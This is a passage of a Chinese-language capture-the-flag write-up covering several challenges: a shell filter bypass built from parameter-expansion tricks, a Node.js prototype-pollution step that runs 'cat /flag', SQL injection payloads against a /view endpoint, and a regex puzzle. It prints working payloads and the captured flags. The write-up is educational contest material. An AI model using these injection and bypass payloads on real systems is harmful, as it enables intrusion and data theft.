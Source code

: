 ```shell
${-:1}
# ./PowerfulShell.sh: line 16: B: command not found
```

这个东西还支持算术运算，所以可以绕过不能用 `0` 的问题。

```shell
${-:1-1:1}
# ./PowerfulShell.sh: line 16: h: command not found
```

注意到我们刚好有 `s` 也有 `h`，所以只要想办法把它们拼起来就行。

```shell
~+||${_:7}${-:1-1:1}
cat /flag
# flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_d317ffbb97}
```

感觉很碰运气，但看了官方题解这居然是预期解。

## Node.js is Web Scale

服务会把输入切分之后一路赋值。容易想到是 `__proto__`，乱搞一下就行。

```JavaScript
// set
__proto__.foo
cat /flag
// /execute?cmd=foo
// flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_ea7769f223}
```

## PauluGPT

`/view` 接口直接用输入拼接成 SQL 查询，所以可以 SQL 注入攻击。

```SQL
1' OR contents like '%flag{%}
1' OR contents like '%flag%
-- flag{enJ0y_y0uR_Sq1_&amp;_1_would_xiaZHOU_hUI_guo_ce4bf3b6df}
-- flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_ce4bf3b6df}
1' OR contents like '%flag%' AND contents NOT LIKE '%would_xiaZHOU_hUI_guo%
-- flag{zU1_xiA0_de_11m_Pa0lule!!!_56541d4385}
```

先出了 flag2，HTML 实体要转义。再加个条件能得到 flag1。看了下原来 flag1 的消息是可见的。

打开网页的时候风扇起飞了，里面有很多换行，一做完赶紧关掉。

## 强大的正则表达式

注意到 16 能整除 10000。所以只要 `x % 10000` 能被 16 整除，x 也能被 16
整除。长度不超过 3 的单独处理。

```Python
import itertools

'|'.join(str(i) for i in range(10))
# '0|1|2|3|4|5|6|7|8|9'

'|'.join(itertools.chain(
    (str(i * 16) for i in range(62)),
    (f'((0|1|2|3|4|5|6|7|8|9)*({"|".join(f"{i * 16:04d}" for i in range(625))}))',),
))
# flag{p0werful_r3gular_expressi0n_easy_f0a7c0dd30}
```
